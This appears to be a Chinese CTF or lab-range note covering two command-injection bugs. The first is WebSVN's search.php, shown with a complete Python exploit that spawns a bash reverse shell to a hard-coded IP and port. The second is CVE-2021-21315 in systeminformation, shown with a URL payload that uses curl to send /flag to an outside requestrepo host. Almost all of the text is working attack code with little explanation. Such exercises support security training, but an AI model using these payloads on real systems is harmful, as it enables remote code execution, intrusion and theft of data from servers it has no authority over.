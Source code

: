 WebSVN是一个基于Web的Subversion Repository浏览器，可以查看文件或文件夹的日志，查看文件的变化列表等。其search.php?search= 参数下过滤不严谨导致RCE。

```
import requests
import argparse
from urllib.parse import quote_plus
 
PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/103.231.14.158/7777 0>&1'"
REQUEST_PAYLOAD = '/search.php?search=";{};"'
 
parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
parser.add_argument('target', type=str, help="Target URL.")
 
args = parser.parse_args()
 
if args.target.startswith("http://") or args.target.startswith("https://"):
    target = args.target
else:
    print("[!] Target should start with either http:// or https://")
    exit()
 
requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))
 
print("[*] Request send. Did you get what you wanted?")
```

## CVE-2021-21315 systeminformation存在命令注入

*靶标介绍：*

systeminformation是一个简单的查询系统和OS信息包

```
/api/osinfo?param[]=$(curl%20-d%20@/flag%20xxx.requestrepo.com)
```

![image-20230719155533236](%E9%9D%B6%E5%9C%BA.assets/image-20230719155533236.png)
